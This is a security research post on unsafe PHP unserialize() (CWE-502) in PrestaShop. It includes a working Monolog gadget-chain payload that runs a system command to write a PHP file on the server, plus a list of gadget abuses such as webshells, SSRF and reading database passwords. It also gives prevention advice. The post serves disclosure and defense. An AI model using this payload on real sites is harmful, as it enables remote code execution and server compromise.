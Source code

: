 ```yaml
---
layout: post
title: "[CWE-502] Exploring the perils of unsafe deserialize() in PrestaShop (part 1)"
categories: research
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,CWE-502"
severity: "critical (10)"
---
```


The deserialization of an instanciated objects in PHP involved the trigger of magic methods `__construct()`, `__wakeup()` and `__destruct()`. 

A Smarty, Monolog or Symfony library's [Gadget](https://en.wikipedia.org/wiki/Gadget_(computer_science)) hydratation with a malicious payload followed by its deserialization can be exploited in multiple malicious critical usages.

Until this present research, we did not have any known gadget on our ecosystem that can justify a CVE against `unserialize` usage.

## Summary

* **Published at**: 2023-08-28
* **Platform**: All CMS espacially PrestaShop.
* **Weakness**: [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
* **Severity**: critical (10)

## Unsafe PHP method deserialize() (part 1)

### How it works?

Let's take an example. The `Smarty` template engine cache process is scheduled to create a lock file at the beginning and remove it at the end during the destruct of `Smarty`'s object. 

A Gadget of this object, a sort of "mockup" of the original class, can be crafted with a target file as parameter. Then, it will remove the target during the deserialization of the Gadget. `Smarty` cache class can be hijacked to delete any files of the vulnerable application.

Please read this article to know more about [unsafe unserialize() in PHP](https://www.sjoerdlangkemper.nl/2021/04/04/remote-code-execution-through-unsafe-unserialize/).


### Proof of concept

In a similar way, the popular library `Monolog` can be hijacked to execute remote code. Let’s explain it on a POC.

We created a simple module to demontrate the danger of a deserialization. Please note that any php script that include PrestaShop core file `config/config.inc.php` load vendors libraries and consequently `Monolog` (PS 1.7+) or others libraries.

**FOR EDUCATIONAL PURPOSES ONLY. DO NOT USE THIS SCRIPT FOR ILLEGAL ACTIVITIES. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE.**

1. Create a module

```php
// modules/mymodule/mymodule.php

class Mymodule
{
...
    public function getContent()
    {
        $payload = 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{s:13:"passthruLevel";i:0;s:6:"buffer";a:1:{s:4:"test";a:2:{i:0;s:45:"echo \'<?php echo "♥" . (25-125);\' > ./a.php";s:5:"level";N;}}s:7:"handler";O:29:"Monolog\Handler\BufferHandler":7:{s:7:"handler";N;s:10:"bufferSize";i:-1;s:6:"buffer";N;s:5:"level";N;s:11:"initialized";b:1;s:11:"bufferLimit";i:-1;s:10:"processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}';

        $unsafeDeserialization = unserialize($payload);

        return var_dump($unsafeDeserialization, true);
    }
...
```

2. Go to the configuration page of the module.

3. This piece of code will put an `a.php` file in the designated directory of the PrestaShop.


### Malicious usage through PrestaShop dependancies

Mailicious usage in PrestaShop via commons libraries are :
* remote code execution (RCE) to put a webshell
* Server Side Request Forgery (SSRF) to aggress other website with a clean IP
* File Deletion (FD) to remove an htaccess and expose logs or sensitive data
* File Writer (WF) to put a webshell
* Files read reader (RF) to read sensitive data like mysql password
* SQL injections (SQLi)
* Technical data leaks (Info)

|PrestaShop dependancy|Malicious usage|
| ------|-----|
|Smarty|SSRF and FD|
|Monolog|RCE and FW|
|Symfony|FD, FW, and RCE|
|Doctrine|RCE and FW|
|TCPDF|FD|
|Guzzle|FW, Info and RCE|

Source: [PHP Generic Gadget Chains](https://github.com/ambionics/phpggc/tree/master/gadgetchains)

NB 1: This list is not exhaustive. Modules dependancies can also include others hijackable classes.

NB 2: Several PrestaShop core or modules configurations are stored in database as serialized strings. In chain, a SQL injection can also be exploited to inject malicious serialized string that will be triggered during the deserialization.


### How to prevent this vulnerability?

As you understand, `unserialize($_GET['param'])` (or `$_POST`, `$_COOKIE`, ...), each untrusted data unserialized is a critical vulnerability. 

* A strict validation of input data is absolutly essential !
* Use json serialization instead as soon as possible.
* Disable the desarialization of classes via `unserialize($args, ['allowed_classes' => false])`. That's not perfect but better than nothing.


